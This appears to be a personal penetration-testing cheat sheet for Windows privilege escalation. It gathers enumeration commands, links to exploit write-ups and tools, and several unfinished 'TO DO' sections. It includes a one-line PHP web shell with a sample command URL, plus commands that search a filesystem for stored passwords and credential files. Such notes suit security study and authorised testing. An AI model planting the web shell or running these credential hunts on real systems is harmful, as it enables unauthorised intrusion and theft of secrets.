 # ariel-shin Windows - Privilege Escalation

## Summary 
* [Tools](#tools)

## MUST RUN: ipconfig/ifconfig && whoami && cat local.txt

## Web Shell for Windows 
PHP Web Shell
- Test if PHP works
```phpinfo
<?php phpinfo(); ?>
```
- Command Execution
```php webshell
<?php echo(system($_GET["cmd"])); ?>
```
- Go to http://victimsite.com/test.php?cmd=dir for command execution 

## Reverse Shell 

[Invoke Powershell](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)

## Process
- systeminfo
	* Gives us system info 

	* Check Hot Fixes
		* No hot fixes - means no hotfixes installed OR we don't have permissions to view hot fixes

	* Check OS Name
		* google: systeminfo "OS" + "NIC(s) installed"
			* example: "Microosft Windows Server 2008 R2 DataCenter" + "NIC(s) installed"
		* check if someone else has posted systeminfo output so we can compare our OS version 

	* Check OS Versions 
		* Indicate the Service Pack -- N/A
		
		```systeminfo
		systeminfo | findstr /B /C:”OS Name” /C:”OS Version”
		```
		* Google Output
- wmic os get osarchitecture || echo %PROCESSOR_ARCHITECTURE%
	* Get architecture
	* x86 = 32 bit machine
	* x64 = 64 bit machine
- Environment Variables
	* Command Prompt
	```env
	set
	```
	* PowerShell
	```
	Get-ChildItem Env: | ft Key,Value
	```
- net users
	* See the users 
- net localgroup Administrator(s)
	* See which users are in the Administrator Group
- net start
	* list running services
- powershell
	* check for powershell
	```powershell
	REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
	```
- Check Weak Permissions 
*** TO DO ****
//more commands at http://www.exumbraops.com/penetration-testing-102-windows-privilege-escalation-cheatsheet
- Processes Running as system
	```systemprocesses
	tasklist /v /fi "username eq system"
	```
- [Scheduled Tasks](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)
	* Option 1 
	```schtasks
	schtasks /query /fo LIST 2>nul | findstr TaskName
	Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
	```
	* Option 2 - fuzzysecurity
	schtasks /query /fo LIST /v

- tasklist /SVC
	* Running processes to started services
	* Looking for upnphost
- Unquoted Service Tasks
**** TO DO ****
- File Upload
- Look for Credentials 
	* [Credentials - Method 1](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
	```creds
	cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
	findstr /si password *.xml *.ini *.txt *.config
	findstr /spin "password" *.*
	```
	* [Credentials - Method 2](https://pentestlab.blog/2017/04/19/stored-credentials/
)
	```creds2
	findstr /si password *.txt
	findstr /si password *.xml
	findstr /si password *.ini
	dir /b /s unattend.xml
	dir /b /s web.config
	dir /b /s sysprep.inf
	dir /b /s sysprep.xml
	dir /b /s *pass*
	dir /b /s vnc.ini
	```
- [Weak Service Permissions](https://pentestlab.blog/2017/03/30/weak-service-permissions/
)
	* Need to upload accesschk.exe
- [DLL Injection]((https://pentestlab.blog/2017/04/04/dll-injection/)
)
- [Hot Potato - NBNS spoofing and NTLM relay](https://pentestlab.blog/2017/04/13/hot-potato/)
- [Group Policy Preferences](https://pentestlab.blog/2017/03/20/group-policy-preferences/)
	* Manually browse to the Groups.xml file which is stored in a shared directory in the domain controller
	* Can be done through Powersploit
- [Unquoted Service Path](https://pentestlab.blog/2017/03/09/unquoted-service-path/)
	```unquoted
	wmic service get name,displayname,pathname,startmode |findstr /i “auto” |findstr /i /v “c:\windows\\” |findstr /i /v “””
	```
- [Always Install Elevated](https://pentestlab.blog/2017/02/28/always-install-elevated/)
	```aie	
	reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
	```
- [Token Manipulation](https://pentestlab.blog/2017/04/03/token-manipulation/)
- [Secondary Logon Handle](https://pentestlab.blog/2017/04/07/secondary-logon-handle/)
- [Insecure Registry Permissions](https://pentestlab.blog/2017/03/31/insecure-registry-permissions/)
- [Weak Service Permissions](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)
	```weak
	wmic service list brief
	```
- [MORE PAYLOADS](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

CHECKLIST (https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md)

accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv "Authenticated Users" C:\*.* /accepteula

sc -- tells you what program is running
systeminternals
accesschk.exe


## Automated Tools
* [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)
* [Sherlock](https://github.com/rasta-mouse/Sherlock)

## Cheat Sheets
* [Reverse Shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
)

## Links
* [Spreadsheet with Resources](https://docs.google.com/spreadsheets/d/12bT8APhWsL-P8mBtWCYu4MLftwG1cPmIL25AEBtXDno/edit#gid=2075148101)